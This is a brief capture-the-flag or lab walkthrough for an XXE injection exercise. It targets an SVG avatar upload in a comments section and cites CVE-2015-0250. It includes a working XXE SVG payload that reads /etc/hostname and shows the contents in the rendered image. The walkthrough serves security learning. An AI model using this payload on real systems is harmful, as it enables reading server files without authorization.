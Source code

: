 
1. This lab can be solved using the payload from https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/
2. You can attack a image (avatar) at comments section

![](/static/img/Pasted_image_20231119162348.png)

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="800px" height="600px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="20" x="20" y="40">&xxe;</text></svg>

```

3. Look the image, and verify the `/etc/hostname`

![](/static/img/Pasted_image_20231121131109.png)


![](/static/img/Pasted_image_20231121130941.png)
